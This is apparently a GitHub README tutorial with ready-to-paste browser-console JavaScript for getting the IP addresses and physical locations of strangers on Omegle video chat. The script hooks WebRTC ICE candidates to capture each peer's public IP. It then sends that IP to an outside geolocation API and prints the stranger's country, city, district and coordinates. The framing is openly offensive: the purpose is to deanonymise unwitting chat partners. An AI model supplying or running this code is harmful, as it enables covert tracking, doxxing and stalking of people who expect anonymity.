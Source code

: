 # Omegle-ip
Strangers IP’s And Location

I’m going to show you how to get strangers ip’s and location automaticly on omegle!

Let’s get started!

First thing firsts, go ahead into [omegle.com](http://omegle.com) and press f12 / inspect element to get access to the developer tool (console):

![image](https://onehack.us/uploads/default/optimized/3X/9/a/9ad88b09f52b8912050ad24833428205182aa36a_2_690x216.jpeg)



After that, you will need to insert in a js script, but before that we need a api to get the strangers location from the ip. For that go into this website: [https://ipgeolocation.io/](https://ipgeolocation.io/) and signup and get your api key.

Once you got your api key, replace it by ‘YOUR_API_KEY_HERE’ in the first line of code:

    const apiKey = "YOUR_API_KEY_HERE";

    window.oRTCPeerConnection =
      window.oRTCPeerConnection || window.RTCPeerConnection;

    window.RTCPeerConnection = function (...args) {
      const pc = new window.oRTCPeerConnection(...args);

      pc.oaddIceCandidate = pc.addIceCandidate;

      pc.addIceCandidate = function (iceCandidate, ...rest) {
        const fields = iceCandidate.candidate.split(" ");

        console.log(iceCandidate.candidate);
        const ip = fields[4];
        if (fields[7] === "srflx") {
          getLocation(ip);
        }
        return pc.oaddIceCandidate(iceCandidate, ...rest);
      };
      return pc;
    };

    const getLocation = async (ip) => {
      let url = `https://api.ipgeolocation.io/ipgeo?apiKey=${apiKey}&ip=${ip}`;

      await fetch(url).then((response) =>
        response.json().then((json) => {
          const output = `
              ---------------------
              Country: ${json.country_name}
              State: ${json.state_prov}
              City: ${json.city}
              District: ${json.district}
              Lat / Long: (${json.latitude}, ${json.longitude})
              ---------------------
              `;
          console.log(output);
        })
      );
    };

After that you have insert your api key etc… now you’re ready to go!

Click on “Video” on omegle:

![image](https://onehack.us/uploads/default/original/3X/5/c/5c61519dad0be7d02f8092d42db8094ec035f5b3.png)

Then insert the js script in the console, you’re all set!

Here’s what you must get in the console once you’re connected with a stranger:

![image](https://onehack.us/uploads/default/original/3X/b/1/b15b058f4c251d9a9386aaa8b9ff68a9898ea5e1.png)

As you can see we have all the location infos of the stranger including the ip, i’ve hidden the ip of the stranger for some security reasons.

**Happy learning!**
